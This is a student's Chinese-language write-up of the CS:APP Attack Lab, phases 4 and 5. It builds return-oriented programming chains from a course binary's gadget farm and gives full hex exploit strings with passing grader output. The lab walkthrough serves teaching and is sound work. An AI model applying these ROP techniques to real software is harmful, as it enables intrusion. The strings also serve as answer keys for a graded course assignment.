## Part II: Return oriented Programming attack

`rtarget`的攻击要比`ctarget`难一些，因为：

1. 开启了栈随机化，程序的地址难以预测
2. 开启了 Non-executable 位，导致我们插入的代码部分难以执行

因此，我们使用一种新的方法：return oriented programming attacks。它的核心在于利用已有的程序，而不是注入代码。每个 gadget 是一个代码段，每个 gadget 的最后都是`ret`指令（编码`c3`），将这个自己和其前面的部分字节组合起来，可以合成我们想要的指令。此外，针对 x86_64，我们不一定要利用整条指令，有的时候一条指令的一部分字节又可以组成另一条指令。所有 gadget 的地址被压在栈上，每次调用`ret`之后就会返回到下一个 gadget 的地址。

### Phase 4

利用`rop`重做 Phase 2 的实验，可以使用`movq, popq, ret, nop`指令以及前 8 个寄存器(`%rax–%rdi`)
提示：

1. 可以在`start_farm`和`mid_farm`之间寻找 gadget
2. 可以只使用 2 个 gadget
3. 当一个 gadget 使用`popq`指令时，它从栈上弹出一个数值，所以你的攻击字符串可以是 gadget 地址和数值的组合。

Phase 2 的目的是让`test()`跳转到`touch2`函数，并且需要让`%edi`的值等于`cookie`的值。

我们当时做题的主要过程是：

1. 让最后的转移地址为`buf`开头的位置(`0x5561dc78`)
2. 在`buf`中存储攻击指令
   1. 让`%edi = *0x6054e4`
   2. 将`touch2`的地址压入栈中，`pushq 0x4017ec`
3. 调用`ret`返回

我们在 phase 2 中需要插入的代码是：

```
    movq $0x6054e4,%rax
    movq (%rax),%rdi
    subq $0x8,%rsp
    movq $0x4017ec,(%rsp)
    ret
```

这里的变化在于，我们不需要使用`buf`来存储攻击指令了，而是在整个程序中寻找攻击指令。把第一个 gadget 的地址放在返回地址处，把第二个 gadget 的地址放在第一个 gadget 后面。以此类推。我们的目的是找到所有的 gadget。

但是其实这段代码可以通过把`0x6054e4`和`0x6017ec`两个值压在栈上。首先利用一个`popq`指令将其弹出到`%rax`中，然后将`%rax`处的值移动到`%rdi`上。我们可以这样设计栈帧：


第一个`gadget`中的代码是：

```
movq %rsp, %rxx
popq %rax
movq (%rax),%rdi
```

第二个`gadget`中的代码是：

```
popq %rax
movq %rax,(%rxx)
```

使用`popq %rax`是因为，`popq`有 8 种可能的结果，而只有`popq %rax`出现在代码的字节中，因此我们从这里出发。我们翻译一下`movq (%rax),%rdi`，其字节编码为`48 8b 38`。

但是我们发现其实不用那么麻烦，也就是说不用保存之前的`%rsp`，这是因为我们可以通过`gadget`中的`ret`指令弹出后 8 个字节的地址并且首先跳转，那么就无需把`touch3`的地址保存在最开始的部分。栈空间可以简化成如下情况：


但是我们发现一个问题，就是`movq (%rax),%rdi`这条指令所对应的字节在源程序中找不到，因此我们需要采取一个更加优化的办法，就是不在栈上保存`cookie`的地址，而是直接保存`cookie`的值，`cookie`的值为`0x59b997fa`，那么栈空间可以简化成如下情况：


这样只需要两条指令就可以做到了。这两条指令的编码是

```

gadget.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	58                   	pop    %rax
   1:	48 89 c7             	mov    %rax,%rdi

```

但是这两条指令我们无法在同一处找到，因此需要划分为 2 个`gadget`。且两条后面的都必须接数个`90`（`nop`）加上一个`c3`。

第一个的地址是`4019ab`或`4019cc`。第二个的地址是`4019a2`或者`4019c5`。

我们这里使用`4019ab`和`4019a2`两个`gadget`。第一个中存储`pop %rax`指令，第二个中存储`mov %rax, %rdi`指令。最后的栈空间如下：


由此，输入的攻击字符串的前 40 个字节随意，后面 32 个字节根据上述栈情况为（注意应该用小端法）

```
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

> 刚刚差点把 gadget1 和 2 的地址搞反了，导致跑出来 segmentation fault，还疑惑是怎么回事，后来一看发现不好，哈哈哈哈，做题的时候还是要认真仔细嗷！

输入`./hex2raw < phase4.txt | ./rtarget -q`（注意不要输入成`ctarget`啦！），运行结果如下：

```bash
gwen@gwen-virtual-machine:~/Documents/report/code/15213/lab/lab3-attack-lab$ ./hex2raw < phase4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### Phase 5

phase 5 的任务是让`%rdi`指向`cookie`的字符串表示并调用`touch 3`，这个任务看起来有点类似我们在 Phase 3 中做的工作。

作者提示：

1. 可使用的`gadget`的范围是`start_farm`到`end_farm`
2. 利用 Appendix 中的表
3. 复习一下课本 P83 的`movl`的用法
4. 官方答案使用了 8 个 gadget

在 Phase 3 中我们所做的工作是：

1. 插入攻击字符串在攻击代码前
2. 在返回地址处插入攻击代码的起始位置
3. 在攻击代码中实现如下操作：
   1. 将攻击字符串的地址赋值给`%rdi`
   2. 将`touch3`的返回地址压入返回地址处

现在使用`rop`后的问题在于：攻击字符串压到哪？现在栈上是返回地址和字符串的组合。那么我们的想法是让攻击字符串放在所有 gadget 地址之后。但是具体放在之后多少呢？这要看`mov xxx, %rdi`中哪些地址的编码存在。

首先，`cookie`的值是`59b997fa`，那么其字符串编码是`0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61 0x00`(`0x00`是字符串最后的`\0`)。那么我们构建的`gadget`中应有的步骤是：

1. `mov 地址,%rdi`
2. `ret`

此外，`touch3`的地址是`0x4018fa`。那么我们最初设计的栈空间如图：


但是我后来有点卡壳了，问题在于把字符串存在什么位置呢？如果存在那个位置，在`rtarget`汇编中能找到对应的`gadget`吗？于是我查找了[一点资料](https://zhuanlan.zhihu.com/p/410418053)(有点耍赖了对不起对不起~)，这个资料中提到的一条信息是我没有想到的：

> rtarget 相比 ctarget 的区别在于开启了栈随机化。也就是运行时字符串的地址是不确定的。在 phase 3 中我们所做的工作是刚好将其压在`test`函数的返回地址下面，但是这里我们需要其相对与栈顶的地址。

因此，我们应该做的步骤是：

```
1. 将攻击字符串放在%rsp + offset 处
2. 让 %rdi = %rsp + offset
3. ret
```

那么如何计算这个地址，并且将其赋给`%rdi`呢？这个地址的计算需要在`%rsp`的基础上偏移几十个字节。地址的计算我们可以使用`lea`指令，然而加法运算如何实现呢？我们看看代码中有没有提供：

```c
/* Add two arguments */
long add_xy(long x, long y)
{
    return x+y;
}
```

这段代码的汇编格式如下：

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq
```

其把`%rdi`和`%rsi`累加到`%rax`中，那么我们要计算偏移量，需要分别把`%rsp`和偏移量放到`%rsi`和`%rdi`中。最后让`%rdi = rax`。

在`rtarget`中，与`%rsp`相关的字节有`48 89 e0`，其编码为`movq %rsp,%rax`。和`%esp`相关的字节有`89 e0`，其编码为`movl %esp, %eax`。包含这段编码的代码如下：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq

0000000000401a18 <getval_345>: // 不可取，c1不是单独指令
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq

0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq

0000000000401a47 <addval_201>: // 不可取，c7不是单独指令
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq

0000000000401a5a <setval_299>: // 不可取，91不是单独指令
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq

0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq

0000000000401a97 <setval_181>: // 不可取，c2不是单独指令
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq
```

那么之前的过程就变为：

```
1. rax = rsp(48 89 e0)
2. rsi = 偏移量
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

我们找一下以`%rsi`和`%rdi`为目的寄存器的指令。

以`%rdi`为目的寄存器的指令编码有`(48)* 89 (c|d|e|f)(7|f)`，在`rtarget`中可能的代码段如下：

```
00000000004019a0 <addval_273>: // 不可取，c3不是指令
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq

00000000004019ae <setval_237>: // 不可取，c7不是指令
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq

00000000004019c3 <setval_426>: // 是他！是他！就是他！
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq
```

以`%rsi/%esi`为目的寄存器的指令编码有`(48)* 89 (c|d|e|f)(6|e)`。在`rtarget`中可能的代码段如下：

```
00000000004019e8 <addval_113>: // 不可取，78 c9不是指令
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	retq

0000000000401a11 <addval_436>: // 可以是他！
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq

0000000000401a25 <addval_187>: // 可以是他，38 c0 是cmpb %al指令，不影响结果
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	retq

0000000000401a61 <addval_404>: // 不可取，92 c3不是指令
  401a61:	8d 87 89 ce 92 c3    	lea    -0x3c6d3177(%rdi),%eax
  401a67:	c3                   	retq
```

这里没有`48`，那么就只能输送到`%esi`中。这里的难点在于如何把偏移量输送到`%esi`中？这里肯定是不能直接输送了，必须通过寄存器的中转。这里只出现了`89 ce`，通过查表我们可以发现`89 ce`对应的指令是`movl %ecx, %esi`。那么我们还需要想办法把值送到`%ecx`中。那么前面的过程就变成了：

```
1. rax = rsp(48 89 e0)
2. ecx = 偏移量； rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

我们再来探测一下目的寄存器为`%ecx`的相关指令，其格式为`(48)* 89 (c|d|e|f)(1|9)`，包含其格式的代码段为：

```
00000000004019f6 <getval_226>: // 不可取，48 c0不是指令
  4019f6:	b8 89 d1 48 c0       	mov    $0xc048d189,%eax
  4019fb:	c3                   	retq
0000000000401a33 <getval_159>: // 可取，38 c9 是cmpb %cl指令
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq
0000000000401a68 <getval_311>: // 可取，08 db 是orb %bl指令
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq
0000000000401a6e <setval_167>: // 不可取，91 c3 不是指令
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	retq
```

代码段中以`%ecx`为目的寄存器的代码格式为`89 d1`，其转化为指令为`movl %edx, %ecx`。

那么前面的过程就变成了：

```
1. rax = rsp(48 89 e0)
2. edx = 偏移量； ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

我们再来探测一下目的寄存器为`%edx`的相关指令，其格式为`(48)* 89 (c|d|e|f)(2|a)`，包含其格式的代码段为：

```
00000000004019db <getval_481>: // 可以是他！
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq
0000000000401a1e <addval_479>: // 不可以是他！
  401a1e:	8d 87 89 c2 00 c9    	lea    -0x36ff3d77(%rdi),%eax
  401a24:	c3                   	retq
0000000000401a40 <addval_487>: // 可以是他，84 c0是 testb %al
  401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
  401a46:	c3                   	retq
0000000000401a54 <getval_155>: // 不可以是他，c4 c9不是指令
  401a54:	b8 89 c2 c4 c9       	mov    $0xc9c4c289,%eax
  401a59:	c3                   	retq
0000000000401a8a <addval_124>: // 不可以是他，c7 37不是指令
  401a8a:	8d 87 89 c2 c7 3c    	lea    0x3cc7c289(%rdi),%eax
  401a90:	c3                   	retq
0000000000401a9e <addval_184>: // 不可以是他，60 d2不是指令
  401a9e:	8d 87 89 c2 60 d2    	lea    -0x2d9f3d77(%rdi),%eax
  401aa4:	c3                   	retq
```

代码段中以`%edx`为目的寄存器的代码格式为`89 c2`，其转化为指令为`movl %eax, %edx`。

那么前面的过程就变成了：

```
1. rax = rsp(48 89 e0)
2. eax = 偏移量；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

以`%eax`(或`%rax`)为目的寄存器的指令格式为`(48)* 89 (c|d|e|f)(0|8)`，包含其格式的代码段为：

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq
0000000000401a18 <getval_345>:
  401a18:	b8 48 89 e0 c1       	mov    $0xc1e08948,%eax
  401a1d:	c3                   	retq
0000000000401a39 <addval_110>:
  401a39:	8d 87 c8 89 e0 c3    	lea    -0x3c1f7638(%rdi),%eax
  401a3f:	c3                   	retq
0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq
0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq
0000000000401a83 <addval_358>:
  401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax
  401a89:	c3                   	retq
0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq
0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq
```

其中以`%eax`为目的寄存器的代码格式为`89 e0`，其主要目的为`movl %esp,%eax`，也就是我们步骤第一步中的内容。

除此以外，还有一种涉及`%rax`的指令就是`popq %rax`，其指令编码为`58`。其在代码中出现的部分包含：

```
00000000004019a7 <addval_219>: // 可以是他！
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq
00000000004019b5 <setval_424>: // 92不是指令，不可以是他！
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq
00000000004019ca <getval_280>: // c3不是指令，不可以是他！
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq
```

那么我们可以采取的方式是：

```
1. rax = rsp(48 89 e0)
2. 偏移量存储在栈上；popq %eax；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
3. rdi = rax(<setval_210> 中的 48 89 c7)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

但是现在问题来了，`%rax`既要存储偏移量，又要存储`%rsp`，我们能否换个地方存储`%rsp`呢，其实可以把第 2 步和第 3 步换一下，让`%rax`转储到`%rdi`里去就行。最终步骤如下：

```
1. rax = rsp(48 89 e0)
2. rdi = rax(<setval_210> 中的 48 89 c7)
3. 偏移量存储在栈上；popq %eax；edx = eax；(89 c2) ecx = edx；(89 d1) rsi = ecx(89 ce)
4. rax = rdi + rsi（lea指令）
5. rdi = rax(<setval_210> 中的 48 89 c7)
6. ret
7. 将攻击字符串放在%rsp + offset 处
```

其中`gadget`的地址为：(单独的 gadget 地址见前文)

1. `rax = rsp` -> `401a06`
2. `rdi = rax` -> `4019c5`
3. `popq %eax` -> `4019ab`
4. 偏移量存储在栈上
5. `edx = eax` -> `4019dd`
6. `ecx = edx` -> `401a69`
7. `rsi = ecx` -> `401a13`
8. `rax = rdi + rsi` -> `4019d6`
9. `rdi = rax` -> `4019c5`
10. `touch3`地址 -> `4018fa`

因为在执行第一条`rax = rsp`时，已经执行了一次`ret`指令，因此此时`%rsp`在`buf + 48`处，也就是返回地址已经被弹出了一个。所以在`buf + 48`后面是 9 个地址 + 数据，因此偏移量应该是 `9 * 8 = 72`，转化为 16 进制就是`0x48`。最终的栈结构如下：



因此，phase 5 的输入为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```

最终结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

通过！

## 总结

1. phase 1 很简单，让 buffer overflow 溢出，然后覆盖返回地址即可
2. phase 2 需要让`%rdi`的值等于`cookie`的值，我们需要插入一部分自己的攻击代码，比 Phase 1 难度稍微高点
3. phase 3 中我们需要插入自己的攻击字符串，然后让`ret`指令返回到攻击代码开始处，通过指令将`%rdi`的值设置为攻击字符串的地址，并且把`touch3`的地址压到栈上。这里的难点在于`hexmatch`和`strncmp`中出现了`push`的压栈操作，并且使用了一段随机的 buffer，如果把攻击字符串放在攻击代码之前，会导致攻击字符串被破坏。因此这里的核心是把攻击字符串放在 caller 函数(`test`)的栈空间内（在返回地址下面），然后让`%rdi`指向这里
4. phase 4 & phase 5 的难点在于将过程理清楚，并且在`rtarget`中找到对应的`gadget`，将栈上作为`gadget`地址和数值的组合，巧妙地运用`popq`和`ret`和其他指令组合出我们想要的操作。
5. phase 5 的核心在于首先确定`rax = rdi + rsi`，并且这两个寄存器一个存储`%rsp`，一个存储偏移量。要将数据输入到这两个寄存器，随后不断的通过反推，找到以他们为目标地址的指令通用结构，在`rtarget`中查找到相关指令，然后确定其源寄存器。再来反推什么指令能将数据输送到源寄存器。打通一条通路，然后确定每个 gadget 的地址，最后串联起来就是我们想要的 gadget 列表！这个过程收获很大！

虽然做这 5 个 Phase 的过程不容易，但是总体来说受益匪浅！

## 参考资料

- [CSAPP 实验之 attack lab](https://zhuanlan.zhihu.com/p/60724948)
- [CSAPP | Lab3-Attack Lab 深入解析](https://zhuanlan.zhihu.com/p/476396465)
- [csapp-attacklab 详解](https://zhuanlan.zhihu.com/p/410418053)
